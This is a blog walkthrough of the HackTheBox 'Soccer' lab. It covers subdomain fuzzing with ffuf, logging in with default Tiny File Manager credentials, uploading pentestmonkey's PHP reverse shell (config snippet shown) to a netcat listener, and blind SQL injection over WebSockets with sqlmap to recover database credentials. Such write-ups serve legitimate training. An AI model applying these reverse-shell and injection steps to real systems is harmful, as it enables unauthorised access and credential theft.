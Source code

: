 ```yaml
---
layout: post
title: "HackTheBox Write Up - Soccer"
date: 2023-05-03
category: labs
image: '/assets/images/HTB-logo.jpg'
tags: [labs, educational, guide]
---
```


### HackTheBox Write Up — Soccer

#### A walkthrough of the ‘Soccer’ box from HackTheBox

![](/assets/images/1jnFpt4i0LUVaVrlqP1E4Gw.png)
#### Scanning & Enumeration

As usual, the first step is to start with an Nmap scan. This revealed ports 22 (SSH), 80 (HTTP), and 9091.

Next I navigated to the webpage, which didn’t have a lot of options available to investigate. Next up is directory busting.

#### **Directory Busting**

![](/assets/images/1N0jZonUbSbE5ypKpdAI5pA.png)

`ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://soccer.htb:80/FUZZ`

Since I’m currently studying for the PNPT from TCM Security and the training is fresh in my mind, I’ll be using FFuF for directory enumeration.

The only real result that came back was the subdomain: `http://soccer.htb/tiny` , which results in a login page that can potentially be brute forced.

#### Initial Access

Before spending time attempting to brute force, let’s first do some OSINT by doing a quick Google search on default credentials for TinyFileManager.

This pays off and saves us some time as the default admin username and password worked and we’re logged in.

![](/assets/images/1CvlPP484HahwYUCEHd80IA.png)

Digging through the ‘Tiny File Manager’ web portal, the first thing that stands out to me is the ‘Upload’ section. This is just asking to be abused and can potentially lead to a reverse shell.

\*Take notice of the permissions set for each file and folder. The ‘/tiny/uploads’ directory is the only folder we have permission to write to.

I decided to use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code for the reverse shell from pentestmonkey, which I’ve nicknamed catshell.php for this lab (don’t ask me why).

Be sure to adjust the IP and port before saving the file. Below is a snip it from the code showing where these changes are made.

```
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1';  // CHANGE THIS  
$port = 1234;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;
```

Next, I set up a listener using netcat:

```
nc -lvnp 4444
```

All we have to do is upload this file and then hit the ‘Direct Link’ button under the ‘Actions’ section. With this, we gain a shell.

The first thing to do is use the following command to get bash:

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Checking the user permissions next, we see our user www-data has low privileges.

![](/assets/images/1Oxn6mA14oA-l13zkoxcUiQ.png)

With this shell we can enumerate further. Referencing the previous findings on port 80/http, I list out the contents of the /etc/nginx/site-enabled directory using the following command:

```
ls /etc/nginx/site-enabled
```

This reveals a file called `soc-player.htb`. When opening this file using cat, it reveals the server\_name: `soc-player.soccer.htb`

I need this to reflect in the /etc/hosts file so I input it, replacing the previous soccer.htb entry.

Navigating to this newly found site we have more options to explore. We now have a few directory listings on the header menu: “Match”, “Login”, “Sign Up”.

I neglected to get a screenshot of this page. But if you can imagine a very simple webpage with some basic directory listings, a robot (or I suppose a prosthetic) soccer leg kicking a flaming soccer ball, and some lorem ipsum giving a brief history of the entire sport of soccer; then you’re up to speed.

Let’s go ahead and sign up. This presents us with one free ticket voucher and an input field where we can check the validity of our ticket ID. This may prove to be an interesting foothold to exploit.

#### Privilege Escalation

Next, I investigate this newly found subdomain further by inspecting the webpage which reveals that Websockets are in use here. Researching possible SQLi for Websockets, we have one that should work found [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that actually automates this.

We’ll need to adjust the parameters for this script. Ensure the “`ws_server`” parameter has the correct URL and the “`data`” contains the “id” parameter as this is what we are using for authentication:

![](/assets/images/1xXN6XCi2hU6M2zAJPIKiwA.png)

Following the directions of the author of this script, I used the following sqlmap command. I just adjusted the tags at the end to narrow down the search a bit. This took a very long time, so keep that in mind if you’re following along.

![](/assets/images/15XQszEZOS4oql-8rlTp4ww.png)

After a long wait and a nice coffee break, SQLMap yielded Database credentials for soccer\_db.

![](/assets/images/1UhU4FA7po_4OcbA2bYQadQ.png)

Using these credentials to establish an SSH connection worked like a charm, so I just navigated to the root folder to obtain the ‘user.txt’ flag.

![](/assets/images/1-_iENcZpdkR5fCBdnlnO5w.png)
#### GAME OVER



By [darkyolks](https://darkyolks.com) originally published on May 3, 2023.

